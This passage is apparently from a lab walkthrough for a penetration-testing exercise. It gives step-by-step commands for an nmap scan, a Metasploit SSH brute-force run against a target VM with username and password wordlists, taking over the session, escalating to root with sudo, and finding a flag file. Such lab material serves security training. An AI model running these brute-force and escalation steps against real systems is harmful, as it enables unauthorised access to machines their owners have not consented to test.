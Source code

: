 
### **Step 4: Simulating Penetration Testing**

#### **Part 1: SSH Brute Force on Target VM 1**

1. **Run nmap in the Kali VM:**
   ```bash
   nmap --top-ports 1000 <TARGET_VM_01_PRIVATE_IP>
   ```
   - We should see that port 22 is open.

2. **Launch Metasploit in the Kali VM:**
   ```bash
   msfconsole
   ```

3. **Run SSH Brute-Force Attack:**
   - Set up the brute force attack against the first target VM:
     ```bash
     use auxiliary/scanner/ssh/ssh_login
     set USER_FILE /root/usernames.txt
     set PASS_FILE /root/passwords.txt
     set RHOSTS <TARGET_VM_01_PRIVATE_IP>
     set THREADS 1
     set VERBOSE true
     run
     ```

4. **Access the VM:**
   - Interact with the session:
     ```bash
     sessions
     sessions -i 1
     whoami
     ```

5. **Privilege Escalation:**
   - Elevate to root:
     ```bash
     sudo su
     whoami
     ```

6. **Obtain the First Flag:**
   - Search for the flag:
     ```bash
     find / -type f -name "flag*"
     cat /root/flag.txt
     ```

7. **Background Session 1:**
   - Press Ctrl + Z to run the session in background mode. When prompted with Background session 1? [y/N], enter y to proceed.
     - Important note: Ctrl + Z (background session) and not Ctrl + C (abort session).

---